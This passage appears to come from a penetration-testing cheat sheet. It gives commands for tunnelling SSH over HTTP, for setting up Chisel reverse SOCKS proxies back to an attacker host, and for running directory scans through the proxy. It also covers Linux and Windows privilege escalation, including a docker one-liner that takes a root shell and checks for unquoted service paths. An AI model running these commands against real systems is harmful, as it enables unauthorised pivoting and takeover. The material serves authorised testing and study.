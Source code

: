 SSH over HTTP
```bash
# At target: open port 80 and redirect incoming traffic from port 80 to port 22 (ssh service)
hts -F localhost:22 x.x.x.x:80
# At client: start a tunnel on a random local port 6969 which is bound at port 80:
htc.exe -F 6969 x.x.x.x:80
# At client: log in via SSH:
ssh -p 6969 localhost
```

Chisel
```bash
# server (kali)
./chisel server -p 8000 --reverse --socks5
# Create SOCKS5 listener on 1080 on Kali, proxy through client
chisel.exe client 10.10.14.3:8000 R:socks
# specify port (add to proxychains config)
chisel.exe client 10.10.14.3:8000 R:5000:socks
```

Once we have a SOCKS proxy set up we can channel our commands through it either via `proxychains4` or through proxy options on specific tools.

```bash
dirsearch -u http://10.1.1.20/ -R 2 -x 400,403 --proxy socks5://localhost:9050
```

# Privilege Escalation

## Internal Reconnaissance - Linux

### SUID

```bash
find / -type f -perm -u=s 2>/dev/null
```

### Groups
Check for any interesting group membership

```bash
bob@example:/$ groups
bob adm cdrom dip plugdev lpadmin sambashare docker
```
Docker privilege escalation
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## Internal Reconnaissance - Windows

Check for unquoted service paths
```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
Check service
```powershell
sc qc FoxitCloudUpdateService
```
Check if writable
```powershell
icacls "C:\Program Files (x86)\Foxit Software\Foxit Reader"
cacls "C:\Program Files (x86)\Foxit Software\Foxit Reader"
```
